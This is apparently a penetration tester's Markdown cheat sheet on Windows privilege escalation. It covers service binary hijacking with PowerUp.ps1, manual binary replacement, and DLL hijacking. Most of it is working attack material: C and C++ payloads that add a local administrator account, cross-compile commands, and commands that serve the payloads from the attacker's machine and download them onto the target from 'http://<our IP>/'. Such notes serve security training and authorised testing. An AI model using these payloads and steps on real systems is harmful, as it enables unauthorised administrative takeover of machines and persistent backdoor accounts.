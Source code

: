 # Windows PrivEsc
Before attempting to leverage the techniques laid out below the enumeration tactics from the `enumeration/windows.md` section should be leveraged.

## Automatic PrivEsc

### Binary Hijacking (PowerUp.ps1)
Nb. This tool (like most) should not be trusted implicitly always and if it fails where enumeration suggests it ought to have succeeded then manual techniques should be employed.
```bash
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .
python3 -m http.server 80
```
```powershell
iwr -uri http://<our IP>/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1
Install-ServiceBinary -Name 'vulnerable-service'
```

## Manual PrivEsc

### Binary Hijacking
Save the following `C` file on Kali host as `adduser.c`:
```C
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user ggilligan12 password123! /add");
  i = system ("net localgroup administrators ggilligan12 /add");
  
  return 0;
}
```
Cross-compile like so, then start the ever faithful web server:
```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
python3 -m http.server 80
```
On the target machine grab the binary:
```powershell
iwr -uri http://<our IP>/adduser.exe -Outfile adduser.exe
```
Move the original binary to a safe place, and replace it with our payload:
```powershell
move C:\path\to\vulnerable\binary.exe binary.exe
move .\adduser.exe C:\path\to\vulnerable\binary.exe
```
Finally restart the service:
```powershell
net stop vulnerable-service
```
If that fails try restarting the machine altogether, leveraging the possiblity that the service will start automatically on startup (verifying this is the case can be done with the relevant command in the `enumeration/windows.md` section):
```powershell
shutdown /r /t 0
```

### DLL Hijacking
Sometimes the file that hosts a binary executable that is running as a service will not be writable, but the DLLs it uses might be. In this event we have an additional way to execute system commands with elevated privilege and add our admin user.

Save the following `C++` file on Kali host as `adduser.cpp`:
```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
        i = system ("net user ggilligan12 password123! /add");
        i = system ("net localgroup administrators ggilligan12 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
Cross compile and serve:
```bash
x86_64-w64-mingw32-gcc adduser.cpp --shared -o adduser.dll
python3 -m http.server 80
```
Grab it on the target machine:
```powershell
iwr -uri http://<our IP>/adduser.dll -Outfile adduser.dll
```
Shift it to the vulnerable directory and rename appropriately. Then restart the relevant service:
```powershell
Restart-Service vulnerable-service
```
